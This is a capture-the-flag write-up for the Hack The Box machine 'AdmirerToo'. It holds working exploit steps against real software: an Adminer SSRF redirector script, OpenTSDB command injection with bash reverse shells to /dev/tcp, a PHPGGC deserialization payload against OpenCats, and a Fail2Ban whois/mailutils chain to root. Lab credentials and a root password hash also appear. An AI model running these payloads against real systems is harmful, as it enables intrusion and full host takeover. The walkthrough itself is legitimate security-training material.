


# AdmirerToo


IP: 10.10.11.137

## Nmap
### All ports
```bash
$ sudo nmap -p- --min-rate=1000 -T4 10.10.11.137

PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
4242/tcp  filtered vrml-multi-use                                                                                                                           
16010/tcp filtered unknown                                                                                                                                  
16030/tcp filtered unknown
```

### Version & Script scan on open ports
```bash
sudo nmap -sC -sV -p 22,80 10.10.11.137

Nmap 7.92 scan initiated Thu Mar 24 14:17:01 2022 as: nmap -sC -sV -p 22,80 -o nmap 10.10.11.137
Nmap scan report for 10.10.11.137
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:33:47:e6:5f:1f:2e:fd:45:a4:ee:6b:78:fb:c0:e4 (RSA)
|   256 4b:28:53:64:92:57:84:77:5f:8d:bf:af:d5:22:e1:10 (ECDSA)
|_  256 71:ee:8e:e5:98:ab:08:43:3b:86:29:57:23:26:e9:10 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Admirer
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 80 - HTTP
Looking at the webpage on port 80 we can see an email and domain when we make a request to a non existent page:
```bash
$ curl http://10.10.11.137/test                               
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at <a href="mailto:webmaster@admirer-gallery.htb">10.10.11.137</a> Port 80</address>
</body></html>
```

We get `webmaster@admirer-gallery.htb`. Lets add it to our `/etc/hosts` file.

### Subdomains
Lets check if there is any other subdomains:
```bash
$ gobuster vhost -u http://admirer-gallery.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://admirer-gallery.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/03/24 14:42:25 Starting gobuster in VHOST enumeration mode
===============================================================
Found: db.admirer-gallery.htb (Status: 200) [Size: 2568]
```

Lets add `db.admirer-gallery.htb` to our `/etc/hosts` file too.

### DB.ADMIRER.GALLERY.HTB
Accessing http://db.admirer-gallery.htb we get the Adminer v4.7.8 portal:

We have access to database via web. Let’s enter and look for any interesting tables. just hit enter, and we are in.
There’s only one table and nothing really interesting in that. The reason why it didn’t ask for any credentials is that the credentials are hard-coded in the page and POST them once we click on "enter" button"
```html
<input type="hidden" name="auth[driver]" value="server">  
<input type="hidden" name="auth[server]" value="localhost">  
<input type="hidden" name="auth[username]" value="admirer_ro">  
<input type="hidden" name="auth[password]" value="1w4nn4b3adm1r3d2!">  
<input type='hidden' name="auth[db]" value="admirer"/>  
<input type='hidden' name="auth[permanent]" value="1"/>
```

#### ADMINER CVE
After trying to use this credentials to login via SSH and failing I found a [CVE-2021-21311](https://www.cvedetails.com/cve/CVE-2021-21311/) that could be useful. It affects all Adminer fromv ersion 4.0.0 and before 4.7.9. As we can see in the machine is running version 4.7.8 so it is vulnerable!
Basically is a Server-Side Request Forgery to access an internal server/service.
There’s a [POC](https://github.com/vrana/adminer/files/5957311/Adminer.SSRF.pdf) already available for this. We just need to setup a redirector on our Kali Linux machine.

```python redirector.py
#!/usr/bin/env python3  
#python3 ./redirector.py 8000 http://127.0.0.1/  
import sys  
from http.server import HTTPServer, BaseHTTPRequestHandler  
  
if len(sys.argv)-1 != 2:  
	print("Usage: {} <port_number> <url>".format(sys.argv[0]))  
	sys.exit()  
  
class Redirect(BaseHTTPRequestHandler):  
	def do_GET(self):  
		self.send_response(302)  
		self.send_header('Location', sys.argv[2])  
		self.end_headers()
		
HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Start the redirector script:
```bash
$ python3 redirector.py 80 http://127.0.0.1
```

For this to work, we need to capture the request of logging into the DB in Burp Suite. Make sure not to send this to repeater.

Analyse the login POST request:
```
POST /?server=localhost HTTP/1.1
Host: db.admirer-gallery.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://db.admirer-gallery.htb/?server=localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Origin: http://db.admirer-gallery.htb
Connection: close
Cookie: adminer_sid=aqj7ovn7kmpnjuce2nkuk246tb; adminer_key=ed3272eb38f41555a6213568a05fb352; adminer_version=4.8.1; adminer_permanent=
Upgrade-Insecure-Requests: 1

auth%5Bdriver%5D=server&auth%5Bserver%5D=localhost&auth%5Busername%5D=admirer_ro&auth%5Bpassword%5D=1w4nn4b3adm1r3d2%21&auth%5Bdb%5D=admirer&auth%5Bpermanent%5D=1
```

This is a default request. If we change `Auth Server` value from `localhost` to our `Kali IP address` and forward the request to server, then we’d get this error:
```
Connection refused
```

So, we need to edit `Auth Driver` value and `Auth Server` value. According to POC PDF, we need to modify auth drive value to `elasticsearch` and auth server value as our attacking machine’s IP address (Kali Linux).
After changing the both values, I couldn’t get a hit on our python script. Then I looked into the source of `Adminer` at https://github.com/vrana/adminer/tree/master/adminer/drivers:

As you can see the source code, the driver name is just `elastic` not `elasticsearch`. This is the reason it didn’t work. Let’s change both values one more time.


We get a hit:
```bash
$ python3 redirector.py 80 'http://127.0.0.1'
10.10.11.137 - - [24/Mar/2022 15:13:24] "GET / HTTP/1.0" 302 -
10.10.11.137 - - [24/Mar/2022 15:13:24] "GET / HTTP/1.0" 302 -
```

We got the `index.html` source of target port 80. This simply means, we can access any locally running service.


As we saw in our initial port scan that three ports are filtered. Let’s try to access them via SSRF. Setup redirector for any of the three filtered ports.
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242'
```

Intercept the login request once again and check the webpage.
We got the response and the title of the page is "OpenTSDB".


According to [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-18666/product_id-47794/Opentsdb-Opentsdb.html) there are 4 vulnerabilities for "OpenTSDB". Two of them are Code Execution. But we need to find the right version information of running application. To get version information, we can use the below endpoint.
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/api/version'
```

After setting the redirector for the version endpoint, capture the login request and modify it a previously and forward it to server.
```json
{"short_revision":"14ab3ef","repo":"/home/hobbes/OFFICIAL/build","host":"clhbase","version":"2.4.0","full_revision":"14ab3ef8a865816cf920aa69f2e019b7261a7847","repo_status":"MINT","user":"hobbes","branch":"master","timestamp":"1545014415"}
```

Alright, we got the version information. It is using 2.4.0 and RCE via command injection exists in this version. The POC is already available for this vulnerability [here](https://github.com/OpenTSDB/opentsdb/issues/2051).
Lets modify the POC to send a ping to our machine first:
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27ping+-c+4+10.10.14.3%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```

After forwarding the request, we’d get this error page. The important part of this is mentioned at the end of the error:
```json
...[snip]...

No such name for 'metrics': 'sys.cpu.nice'\n\tat net.opentsdb.uid.UniqueId$1GetIdCB.call(UniqueId.java:450) ~[tsdb-2.4.0.jar:14ab3ef]\n\tat net.opentsdb.uid.UniqueId$1GetIdCB.call(UniqueId.java:447) ~[tsdb-2.4.0.jar:14ab3ef]\n\t... 34 common frames omitted\n"}
```

The error is triggered because the `metrics` which we used (sys.cpu.nice) is not available, so it couldn’t complete the code execution. Lets find the metrics looking at the [documentation](http://opentsdb.net/docs/build/html/api_http/suggest.html).
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/api/suggest?type=metrics'
```

We get a response back:
```bash
["http.stats.web.hits"]
```

Let’s modify our redirect link accordingly:
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27ping+-c+4+10.10.14.4%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```

Success! We get RCE!


### RCE
Ok, now lets get a reverse shell. Make sure to put the payload inside single quotes and urlencode:
```bash
# ORIGINAL
'/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.4/9001 0>&1"'

# URL ENCODED
%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%34%2f%39%30%30%31%20%30%3e%26%31%22%27
```

Setup the redirector with our urlencoded command:
```bash
$ python3 redirector.py 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=%5B33:system(%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%34%2f%39%30%30%31%20%30%3e%26%31%22%27)%5D&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```
 
 Start a netcat listener on port 9001, intercept the database login and modify the parameters to trigger the SSRF -> RCE and we are in:
 

## Shell as opentsdb
From here we can get the `/etc/passwd` to check the users in the machine:
```bash
opentsdb@admirertoo:/$ cat /etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
jennifer:x:1002:100::/home/jennifer:/bin/bash
```

We see there is a user called `jennifer`.

### Found credentials
Enumerating the machine we find credentials in the plugins directory of adminer:
```bash
opentsdb@admirertoo:/$ cat /var/www/adminer/plugins/data/servers.php     

<?php
return [
  'localhost' => array(
//    'username' => 'admirer',
//    'pass'     => 'bQ3u7^AxzcB7qAsxE3',
// Read-only account for testing
    'username' => 'admirer_ro',
    'pass'     => '1w4nn4b3adm1r3d2!',
    'label'    => 'MySQL',
    'databases' => array(
      'admirer' => 'Admirer DB',
    )
  ),
];
```

After trying some combinations I finally get a successfull SSH login using `jennifer:bQ3u7^AxzcB7qAsxE3`:
```bash
$ ssh jennifer@10.10.11.137
jennifer@10.10.11.137 password: 
Linux admirertoo 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue Feb 22 20:58:38 2022 from 10.10.14.8
jennifer@admirertoo:~$
```

## SSH shell as jennifer
We can read the `flag.txt` in the home directory.
While enumerating the machine we find a webserver running internally on port 8080:
```bash
jennifer@admirertoo:~$ netstat -antup
Active Internet connections (servers and established)                                                                                                       
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name                                                            
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                                                                           
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      - 
...[SNIP]...
```

Running a simple `curl` command we can get a grasp of it:
```bash
jennifer@admirertoo:~$ curl -i localhost:8080                                                                                                               
HTTP/1.1 200 OK                                                                                                                                             
Date: Thu, 24 Mar 2022 08:26:00 GMT                                                                                                                         
Server: Apache/2.4.38 (Debian)                                                                                                                              
Set-Cookie: CATS=kpcm3cfavlvquppb97spq7ovi6; path=/                                                                                                         
Expires: Mon, 26 Jul 1997 05:00:00 GMT                                                                                                                      
Cache-Control: no-store, no-cache, must-revalidate                                                                                                          
Pragma: no-cache                                                                                                                                            
Last-Modified: Thu, 24 Mar 2022 08:26:00 GMT                                                                                                                
Vary: Accept-Encoding                                                                                                                                       
Content-Length: 3665                                                                                                                                        
Content-Type: text/html; charset=UTF-8                                                                                                                      
                                                                                                                                                            
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"                                                                                              
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">                                                                                                  
<html>                                                                                                                                                      
<head>                                                                                                                                                      
<title>opencats - Login</title>
...[SNIP]...
```

It is running an web application called "OpenCats".

### Enumerating services
Enumerating the services running on the machine we see another interesting thing:
```bash
jennifer@admirertoo:~$ systemctl list-units --type=service
UNIT                               LOAD   ACTIVE SUB     DESCRIPTION                                                       
apache2.service                    loaded active running The Apache HTTP Server                                            
apache2@opencats.service           loaded active running The Apache HTTP Server                                            
apparmor.service                   loaded active exited  Load AppArmor profiles                                            
console-setup.service              loaded active exited  Set console font and keymap                                       
cron.service                       loaded active running Regular background program processing daemon                      
dbus.service                       loaded active running D-Bus System Message Bus                                          
fail2ban.service                   loaded active running Fail2Ban Service
...[SNIP]...
```

We confirm that "OpenCats" is running (`apache2@opencats.service`) but also Fail2Ban (`fail2ban.service`).  Lets see what version:
```bash
jennifer@admirertoo:~$ fail2ban-server -V  
Fail2Ban v0.10.2
```

This version in particular has a [RCE vulnerability](https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm) in mailing action using mailutils.

## Privilege Escalation to Root
First lets forward the port 8080 via SSH so we can have a look at the OpenCats website. I will forward port 8080 to my local port 9000:
```bash
$ ssh -L 9000:127.0.0.1:8080 jennifer@10.10.11.137
```

Browsing to http://localhost:9000/ we see OpenCats website and version 0.9.5.2:


This version has a deserialization vulnerability, [CVE2021-25-294](https://www.cvedetails.com/cve/CVE-2021-25294/), that can lead to remote command execution. But we need to authenticate in the web application first.

### OpenCats database
We can find credentials for the website database looking at `/opt/opencats/config.php`:
```bash
/* Database configuration. */                                                                                                                               
define('DATABASE_USER', 'cats');                                                                                                                            
define('DATABASE_PASS', 'adm1r3r0fc4ts');                                                                                                                   
define('DATABASE_HOST', 'localhost');                                                                                                                       
define('DATABASE_NAME', 'cats_dev');
```

We can now access the database and update the `admin` password with our own.
```bash
jennifer@admirertoo:/opt/opencats$ mysql -u cats -p
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2926
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use cats_dev;
Database changed
MariaDB [cats_dev]> select * from user\G                                                           
*************************** 1. row ***************************                                                           
                  user_id: 1                                                                                             
                  site_id: 1                                                                                                                                
                user_name: admin                                                                                                                            
                    email: admin@testdomain.com                                                                                                             
                 password: dfa2a420a4e48de6fe481c90e295fe97                                                                                                 
             access_level: 500                                                                                                                              
      can_change_password: 1                                                                                                                                
             is_test_user: 0                                                                                                                                
                last_name: Administrator
               first_name: CATS
                  is_demo: 0
               categories: NULL
           session_cookie: CATS=lbvars2nn2tk51l4t58nnkc4ut

```

Create a password:
```bash
$ echo -n password123 | md5sum
482c811da5d5b4bc6d497ffa98491e38  -
```

Update the `admin` password in the database:
```
MariaDB [cats_dev]> update user set password="482c811da5d5b4bc6d497ffa98491e38" where user_id=1;
Query OK, 1 row affected (0.002 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Great, now we can login as `admin:password123` in the website portal:


There is a [blog by Snoopy Security](https://snoopysecurity.github.io/web-application-security/2021/01/16/09_opencats_php_object_injection.html) that explains how to exploit that CVE, we can read and follow along.

### Exploiting OpenCats
For this to work we need to switch to activities tab, click on `date` and intercept the request in Burp Suite:
```
GET /index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A8%3A%7Bs%3A10%3A%22rangeStart%22%3Bi%3A0%3Bs%3A10%3A%22maxResults%22%3Bi%3A15%3Bs%3A13%3A%22filterVisible%22%3Bb%3A0%3Bs%3A9%3A%22startDate%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22endDate%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22period%22%3Bs%3A37%3A%22DATE_SUB%28CURDATE%28%29%2C+INTERVAL+1+MONTH%29%22%3Bs%3A6%3A%22sortBy%22%3Bs%3A15%3A%22dateCreatedSort%22%3Bs%3A13%3A%22sortDirection%22%3Bs%3A4%3A%22DESC%22%3B%7D HTTP/1.1
Host: localhost:9000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:9000/index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A8%3A%7Bs%3A10%3A%22rangeStart%22%3Bi%3A0%3Bs%3A10%3A%22maxResults%22%3Bi%3A15%3Bs%3A13%3A%22filterVisible%22%3Bb%3A0%3Bs%3A9%3A%22startDate%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22endDate%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22period%22%3Bs%3A37%3A%22DATE_SUB%28CURDATE%28%29%2C+INTERVAL+1+MONTH%29%22%3Bs%3A6%3A%22sortBy%22%3Bs%3A15%3A%22dateCreatedSort%22%3Bs%3A13%3A%22sortDirection%22%3Bs%3A3%3A%22ASC%22%3B%7D
Cookie: CATS=pi6tu18gi6s644ab6doit1ll37
Upgrade-Insecure-Requests: 1
```

According to the blog, `activity` parameter is vulnerable. So, we need to generate serialized exploit using PHPGGC and replace it with default one. We can use https://github.com/ambionics/phpggc.
First we can simply create a file in `/dev/shm` to check its permissions and user details:
```bash
$ echo "Caue was here" > test.txt
$ phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/test.txt /home/caue/htb/admirertoo/test.txt
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A14%3A%22Caue+was+here%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A17%3A%22%2Fdev%2Fshm%2Ftest.txt%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

Replacing the generated serialized object above with the one in `DataGrid` parameter we get the exploit to work. If we look at `/dev/shm/` we can see our file:
```bash
jennifer@admirertoo:/dev/shm$ ls -la
total 4
drwxrwxrwt  2 root  root    60 Mar 24 09:10 .
drwxr-xr-x 16 root  root  3080 Mar 24 06:04 ..
-rw-r--r--  1 devel devel   57 Mar 24 09:10 test.txt
jennifer@admirertoo:/dev/shm$ cat test.txt
Caue was here
jennifer@admirertoo:/dev/shm$
```

Things to note here is that the file was created by `devel` user and not `root`. Devel does not have any shell access (see `/etc/passwd` below) so it is probably useless to get a shell as him:
```bash
jennifer@admirertoo:/dev/shm$ grep 'devel' /etc/passwd
devel:x:1003:1003::/home/devel:/sbin/nologin
```
Dead end.

### Fail2ban exploit
Going back to Fail2Ban exploit, we can get code execution if we edit the `/etc/hosts` file and point to our own IP address. However, we don’t have permission to edit the hosts file, only root can edit it.
But, we can put a whois configuration file in `/usr/local/etc` directory and when we execute whois command it takes configuration file for processing.
This is the default configuration of jail (fail2ban), if any IP is banned then it sends an email to specified address.
```bash
jennifer@admirertoo:/dev/shm$ cat /etc/fail2ban/jail.local  
[DEFAULT]  
ignoreip = 127.0.0.1  
bantime = 60s  
destemail = root@admirertoo.htb  
sender = fail2ban@admirertoo.htb  
sendername = Fail2ban  
mta = mail  
action = %(action_mwl)s
```

The configuration file below says that Fail2Ban is enabled in SSH:
```bash
jennifer@admirertoo:/dev/shm$ cat /etc/fail2ban/jail.d/defaults-debian.conf  
[sshd]  
enabled = true
```

### Root exploit chain
We will use OpenCats deserialization vulnerability to write a malicious `whois` configuration file that is pointing to our machine. Then we create another file that will send us a reverse shell and it is triggered whenever Fail2Ban sends an email - in another words, when someone tries to SSH login with wrong credentials multiple times.

Step 1 - Create a configuration file:
```bash
$ cat caue.conf  
}]|. [10.10.14.4]
```

Step 2 - Serialize the configuration file to overwrite `/usr/local/etc/whois.conf`:
```bash
$ phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf /home/caue/htb/admirertoo/caue.conf
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A18%3A%22%7D%5D%7C.+%5B10.10.14.4%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

Step 3 - We create a local shell file that we’ll use to get a reverse shell to our own box:
```bash
$ cat shell
~| bash -c "bash -i >& /dev/tcp/10.10.14.4/9001 0>&1" &
```

Step 4 - Start a netcat listener on port 43 (whois) & on port 9001 to receive the shell:
```bash
$ nc -nvlkp 43 -c "cat shell"
---
$ nc -lnvp 9001
```



Step 5 - Now we go to the OpenCats website, click on the vulnerable "Date", intercept the request and modify the parameter with our generated serialized object of step 2.

Step 6 - Test -> Run whois to our machine:
```bash
jennifer@admirertoo:/dev/shm$ whois 10.10.14.4
``````

And we get a hit back in our netcat listening on port 43! Nice!
Lets set the netcat for the whois back up again:
```bash
$ nc -nvlkp 43 -c "cat shell"
```

Step 7 - Spam the SSH login to get banned and trigger Fail2Ban
At this moment our payload is already delivered to target machine, now we need to trigger Fail2Ban application via failed SSH attempts:
```bash
$ ssh root@10.10.11.137
root@10.10.11.137's password: 
Permission denied, please try again.
root@10.10.11.137's password: 
Permission denied, please try again.
root@10.10.11.137's password:
```

And we are ROOT.
```
$ nc -lnvp 9001                                                                                                                                             
listening on [any] 9001 ...                                                                                                                                 
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.137] 50568                                                                                                 
bash: cannot set terminal process group (3475): Inappropriate ioctl for device                                                                              
bash: no job control in this shell                                                                                                                          
root@admirertoo:/# cd /root
root@admirertoo:~# ls -la
total 40
drwx------  4 root root 4096 Jan 12 10:20 .
drwxr-xr-x 18 root root 4096 Jan 11 11:20 ..
lrwxrwxrwx  1 root root    9 Jul  8  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  2 root root 4096 Dec 16 15:00 .cleanup
drwx------  3 root root 4096 Jan 10 22:49 .gnupg
lrwxrwxrwx  1 root root    9 Jul  8  2021 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Mar 24 06:04 root.txt
-rw-------  1 root root 9755 Jan 12 10:20 .viminfo
```


```
root:$6$eP5MVyB1lXtVQgzU$H4xJdGiHfSu9JmUR80juqHC5BAca79yir2Z6bipW8s.DowTuNRo82/CjN7EMBK8lczD1AMYxgKTIp79DjN2R31:18817:0:99999:7:::
```
